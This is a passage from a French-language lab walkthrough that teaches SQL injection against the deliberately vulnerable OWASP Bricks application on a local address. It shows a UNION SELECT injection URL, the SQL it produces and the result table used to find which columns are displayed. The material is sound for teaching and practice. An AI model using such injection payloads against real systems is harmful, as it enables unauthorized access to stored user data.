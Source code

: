 ![L'application affiche nos NULL,NULL,NULL,... c'est à dire rien !](images/select_limit_nulls.png)


## Afficher des données

On a 8 colonnes dans notre requête, mais l'application n'affiche que 3 champs. On va donc chercher à savoir quels sont les champs affichés par l'application.\
Pour cela, on remplace, certains de nos `NULL` par du texte entre guillemets `'aaaaa'`. Si on voit un `aaaa` dans la page affichée. C'est que l'on peut récupérer des données sur ce champs.

Comme on a de la chance, dès notre 1er champ, notre 'aaaaa' est réfléchit.

L'URL `http://192.168.56.101/owaspbricks/content-1/index.php?id=1+UNION+SELECT+%27aaaa%27,NULL,NULL,NULL,NULL,NULL,NULL,NULL+LIMIT+1,1;-- `

Donne la requête SQL
```
SELECT * FROM users WHERE idusers=1 UNION SELECT 'aaaa',NULL,NULL,NULL,NULL,NULL,NULL,NULL LIMIT 1,1;-- LIMIT 1
```

\newpage

```
+---------+------+-------+----------+------+------+------+------+
| idusers | name | email | password | ua   | ref  | host | lang |
+---------+------+-------+----------+------+------+------+------+
| aaaa    | NULL | NULL  | NULL     | NULL | NULL | NULL | NULL |
+---------+------+-------+----------+------+------+------+------+
```
